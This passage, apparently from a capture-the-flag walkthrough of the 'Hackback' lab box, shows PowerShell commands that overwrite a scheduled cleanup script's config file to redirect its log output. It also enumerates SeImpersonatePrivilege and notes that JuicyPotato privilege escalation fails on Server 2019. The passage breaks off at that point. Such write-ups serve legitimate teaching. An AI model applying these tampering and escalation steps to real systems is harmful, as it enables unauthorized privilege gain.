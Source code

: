 
I know that `dellog.bat` is updating `batch.log`. At the same time, something
else is updating `log.txt` at the same time.

I can edit `clean.ini` and change `LogFile` to `0xdf.txt`:

    
    
    PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=c:\util\scripts\0xdf.txt`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini
    

After the next run, `log.txt` didn’t update it’s timestamp, but `0xdf.txt`
appears:

    
    
    PS hackback\simple@HACKBACK scripts> dir -force
    
        Directory: C:\util\scripts
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       12/13/2018   2:54 PM                spool
    -a----         3/4/2019  10:14 PM             35 0xdf.txt
    -a----       12/21/2018   5:44 AM             84 backup.bat
    -a----         3/4/2019  10:14 PM            402 batch.log
    -a----         3/4/2019  10:09 PM            180 clean.ini
    -a-h--       12/13/2018   2:58 PM            330 dellog.bat
    -a----        12/8/2018   9:17 AM           1232 dellog.ps1
    -a----         3/4/2019  10:09 PM             35 log.txt   
    

### Exploiting Named Pipe - Intended Path

#### Enumeration

If I look at the privileges of my current user, simple, I’ll see
SeImpresonatePrivilege:

    
    
    PS hackback\simple@HACKBACK scripts> whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                               State  
    ============================= ========================================= =======
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
    

On older versions of Windows, I could
[juicypotato](https://github.com/ohpe/juicy-potato) to system from here, but
it [doesn’t work anymore in server 2019](https://decoder.cloud/2018/10/29/no-
more-rotten-juicy-potato/), which is what hackback is:

    
    